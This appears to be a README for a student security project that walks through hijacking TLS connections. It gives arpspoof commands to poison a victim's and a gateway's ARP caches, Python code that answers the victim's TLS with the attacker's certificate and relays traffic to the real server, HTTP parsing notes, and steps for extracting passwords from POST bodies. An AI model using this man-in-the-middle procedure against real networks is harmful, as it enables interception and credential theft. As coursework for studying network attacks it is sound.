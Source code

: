 ## 🧪Project 1 - TLS Connection Hijacking

### 🎯GOAL
- Make use of arpspoofing to deceive router and victim
- Establish TLS connections between both attacker and victim, and attacker and web server
- Parsing HTML packets to ensure that the victim's browser displays the webpage properly.
- __Steal the password__ while victim is entering the login page

### 🧨STEP1 - ARP Spoofing
Make the __victim / router__ assume that the attacker is where the packet should go at next hop (originally the router / victim) by deceiving the arp packets.
```bash
sudo arpspoof -i <INTERFACE> -t <GATEWAY_IP> <CLIENT_IP>
sudo arpspoof -i <INTERFACE> -t <CLIENT_IP> <GATEWAY_IP>
```

### 🧨STEP2 - Hijacking a TLS Connection
Create a socket to make connection with victim, based on the previous ARP spoofing, the victim sends packets to the attacker.
```python
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind((HOST, PORT))
server.listen(5)

client_socket, addr = server.accept()
context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
context.load_cert_chain(certfile=certFile, keyfile=keyFile)
victim_connection = context.wrap_socket(client_socket, server_side=True)
```
Create connections between attacker and server, the server sends website information to router, and based on the previous ARP spoofing, the router will sends packets back to attacker, too.
```python
context = ssl.create_default_context()
server_connection = context.wrap_socket(socket.socket(socket.AF_INET), server_hostname=host)

server_connection.connect((host, port))
server_connection.sendall(request)
```

### 🧨STEP3 - Handle Large Packets
Normally, the size of a website is huge that one must handle packet several times. By parsing HTML header, coping with large packets will be much easier.
- HTML header format
  - "\r\n\r\n" at the end of header
  - every header is splited by "\r\n"
  - find __Content-Length__ and __Trandfer-Encoding__
- Content-Length
  - Recording the total size of the entire web page.
- Tansfer-Encoding
  - Sometimes, "Content-Length" won't be used instead of "Transfer-Encoding" since there might be a dynamic generated pages
  - If the tag is "Chunked", each chunk indicates its own length, and a final chunk with a length of 0 signals the end.
```text
4\r\n
Wiki\r\n
5\r\n
pedia\r\n
0\r\n
\r\n
```

### 🧨STEP4 - STEAL Password
- Find header named "Type", if the type of this request is post, check HTML body and the body format will be,
```text
username=<username>&password=<password>
```
